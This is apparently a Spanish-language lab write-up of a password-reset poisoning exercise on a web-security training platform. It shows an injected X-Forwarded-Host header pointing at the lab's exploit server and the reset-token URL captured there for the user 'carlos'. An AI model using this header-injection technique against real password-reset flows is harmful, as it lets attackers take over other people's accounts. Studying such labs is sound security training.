


En el sitio web encontramos un panel de login el cual tiene la opción de `Forgot password`



Al hacer click en esta opcion nos da a para ingresar un nombre de usuario o email.


En nuestro servidor de correo este nos da link con un token para resetear la password



Ahora podemos cambiar nuestra contraseña


Vamos al `BurpSuite`, en este podemos ver las solicitudes de cambio de contraseña.


Para explotar el sitio web, debemos entende de que es el `X-Forwarded`. Este es una cabecera HTTP no estándar (pero muy usada) que los **proxies inversos** (como Nginx, HAProxy, AWS ELB, etc.) utilizan para **preservar el nombre del host original** en una solicitud HTTP cuando el proxy redirige la petición a otro servidor.

Entendido esto, podemos hacer uso de esta cabecera para enviar la solicitud a nuestro servidor malicioso.

```c
X-Forwarded-Host: exploit-0a2a0001048b774f83f809d501de006d.exploit-server.net
```

Al enviar la solicitud vemos que este se envió correctamente.


En nuestro servidor malicioso también vemos los logs de la solicitud y un token para poder reestablecer la contraseña del usuario `carlos`


```c
https://[LAB].web-security-academy.net/forgot-password?temp-forgot-password-token=[token]
```


